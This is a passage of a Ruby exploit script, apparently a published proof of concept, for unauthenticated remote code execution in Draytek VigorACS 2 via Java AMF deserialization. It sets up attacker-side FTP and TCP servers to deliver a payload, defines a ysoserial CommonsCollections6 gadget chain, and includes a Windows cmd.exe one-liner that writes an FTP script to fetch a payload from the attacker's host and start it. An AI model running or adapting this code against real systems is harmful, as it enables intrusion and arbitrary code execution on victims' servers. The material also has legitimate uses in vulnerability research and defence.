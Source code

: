 ```rb
# FTP server (Windows)
class Driver
	def initialize(temp_dir)
		@temp_dir = temp_dir
	end
	def authenticate(user, password)
		# actually the client hasn't downloaded it yet, just logged in, but whatever
		puts '[+] Payload has been downloaded, wait for execution!'.green.bold
		true
	end
	def file_system(user)
		Ftpd::DiskFileSystem.new(@temp_dir)
	end
end
def ftp_start (temp_dir, lhost, port)
	driver = Driver.new(temp_dir)
  server = Ftpd::FtpServer.new(driver)
	server.interface = lhost
  server.port = port
  server.start
end
def tcp_start (payload, port)
	pl = File.binread(payload)
	server = TCPServer.new port
	loop do
		Thread.start(server.accept) do |client|
		client.write(pl)
		client.close
		puts "[+] Payload has been downloaded, wait for execution!".green.bold
		end
	end
end
puts ""
puts "Draytek VigorACS 2 unauthenticated remote code execution (unsafe Java AMF deserialization)".cyan.bold
puts "CVE-TODO".cyan.bold
puts "Tested on version 2.2.1 for Windows and Linux, earlier versions are likely vulnerable".cyan.bold
puts "By Pedro Ribeiro (pedrib@gmail.com) / Agile Information Security".blue.bold
puts ""
if (ARGV.length < 5 || (ARGV[3] != "Linux" && ARGV[3] != "Windows") || !File.file?(ARGV[4]))
	puts "Usage: ./acsPwn.rb <rhost> <rport> <lhost> <Windows|Linux> <payload_path> [ssl]".bold
	puts "	rhost:\t\t\tDraytek Vigor ACS server host"
	puts "	rport:\t\t\tDraytek Vigor ACS server port"
	puts "	lhost:\t\t\tyour IP address"
	puts "	Windows|Linux:\t\ttarget type"
	puts "	payload_path:\t\tPath to the payload that is going to be executed in the Vigor server"
	puts "	ssl:\t\t\tConnects to Vigor server using SSL (by default uses plain HTTP)"
	puts ""
	puts "NOTES:\tThis exploit requires the ftpd gem installed and the java executable in the PATH."
	puts "\tThe included ysoserial.jar (patched for multiarg) and the included acsFlex.jar must be in the current directory."
	puts "\tTwo random TCP ports in the range 10000-65535 are used to receive connections from the target."
	puts ""
	exit(-1)
end
# we can use ysoserial's CommonsCollections5 or CommonsCollections6 exploit chain
YSOSERIAL = "ysoserial-patched.jar ysoserial.exploit.JRMPListener JRMP_PORT CommonsCollections6Chained "
WINDOWS_CMD = %{'cmd.exe /c @echo open SERVER PORT>script.txt&@echo binary>>script.txt&@echo get /PAYLOAD>>script.txt&@echo quit>>script.txt&@ftp -s:script.txt -v -A&@start PAYLOAD'}
```